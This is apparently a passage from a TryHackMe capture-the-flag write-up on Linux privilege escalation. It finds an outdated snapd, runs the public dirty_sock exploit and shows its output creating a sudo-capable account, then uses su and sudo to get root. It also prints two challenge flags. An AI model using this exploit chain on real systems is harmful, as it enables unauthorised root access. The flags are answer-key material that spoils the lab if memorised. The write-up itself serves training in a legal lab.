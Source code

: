 ```
THM{MjBkOTMyZDgzNGZmOGI0Y2I5NTljNGNl}
```

Let's search for outdated software. `apt list --upgradeable`

We got something interesting.

```
snapd/bionic-updates,bionic-security 2.48.3+18.04 amd64 [upgradable from: 2.32.5+18.04]
```

Let's search for exploits in searchsploit. We got 2 exploits and the 1st one requires outbound connection. So moving onto next one. We have to change it to unix format using dos2unix and then we have to transfer it over port 80.

And on executing we have added an account.

```
./dirty_sock.py 

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/phorbmxyuh;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...



********************
Success! You can now `su` to the following account and use sudo:
   username: dirty_sock
   password: dirty_sock
********************
```

1. su dirty_sock
2. sudo -s

# Flag2.txt

```
THM{YjMyZTkwYzZhM2U5MGEzZDU2MDc1NTMx}	
```